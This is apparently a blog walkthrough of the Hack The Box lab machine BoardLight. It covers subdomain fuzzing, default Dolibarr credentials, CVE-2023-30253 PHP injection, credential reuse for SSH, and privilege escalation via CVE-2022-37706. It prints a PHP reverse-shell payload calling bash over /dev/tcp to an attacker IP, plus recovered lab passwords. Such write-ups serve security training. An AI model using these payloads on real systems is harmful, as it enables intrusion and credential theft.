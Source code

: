 ```yaml
---
title:  HTB - BoardLight
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , BoardLight]
tags: [HackTheBox, Dolibarr, PHP, CVE-2023-30253, LinPEAS, CVE-2022-37706]
image:
  path: /assets/img/post/boardlight/boardlight.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - BoardLight.
---
```


## Box Info

| Name                  | BoardLight       | 
| :-------------------- | ---------------: |
| Release Date          | 25 May, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

![Image](/assets/img/post/boardlight/0.png)

### SubDomain

```bash
wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt "Host: FUZZ.board.htb" -u [](http://board.htb/)[http://board.htb](http://board.htb)
```

![Image](/assets/img/post/boardlight/1.png)

![Image](/assets/img/post/boardlight/2.png)

![Image](/assets/img/post/boardlight/e.png)

![Image](/assets/img/post/boardlight/z.png)

The login page is using the default credentials by Dolibarr

## Dolibarr 17.0.0

### CVE-2023-30253

[`Missing Error Handling | OWASP Foundation`](https://owasp.org/www-community/vulnerabilities/Missing_Error_Handling)

The version Dolibarr 17.0.0 has a vulnerability to `PHP Code injection` (RCE) (CVE-2023-30253)

[Dolibarr confirm RCE in the version 17.0.0](https://github.com/advisories/GHSA-9wqr-5jp4-mjmh)


[Security Advisory: Dolibarr 17.0.0 PHP Code Injection (CVE-2023-30253) - Swascan](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

![Image](/assets/img/post/boardlight/b.png)

We make a page and use PHP for try to get a reverse shell.

![Image](/assets/img/post/boardlight/x.png)

![Image](/assets/img/post/boardlight/s.png)

```js
<?PHP echp system("whoami");?>
```

![Image](/assets/img/post/boardlight/a.png)

```php
<section id="mysection1" contenteditable="true">
<?PHP echo system("bash -c 'bash -i >& /dev/tcp/10.10.14.88/7777 0>&1'");?>
</section>
```

[https://wiki.dolibarr.org/index.php?title=Backups](https://wiki.dolibarr.org/index.php?title=Backups)

### Credentials

```zsh
$dolibarr_main_db_name='dolibarr'; $dolibarr_main_db_prefix='llx_'; $dolibarr_main_db_user='dolibarrowner'; $dolibarr_main_db_pass='serverfun2$2023!!'; $dolibarr_main_db_type='mysqli';

dolibarrowner

serverfun2$2023!!

cat /etc/passwd | grep bash

SSH:

larissa

serverfun2$2023!!
```

![Image](/assets/img/post/boardlight/3.png)


I found no exploitable points and uploaded linpeas to scan for vulnerabilities.

## LinPEAS

`_LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix_/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)_`

[PEASS-ng/linPEAS at master · peass-ng/PEASS-ng](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## Enlightenment_sys

Enlightenment_sys in some cases could be an internal component or refer to scripts or tools for interacting with Enlightenment; it could also be a module or a configuration depending on the context.

![Image](/assets/img/post/boardlight/4.png)

In this point it's just exploit the CVE for scalation previleges and get the root flag.

[GitHub - MaherAzzouzi/CVE-2022-37706-LPE-exploit: A reliable exploit + write-up to elevate privileges to root. (Tested on Ubuntu 22.04)](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)

Run exploit.sh and you obtained the shell as `root`.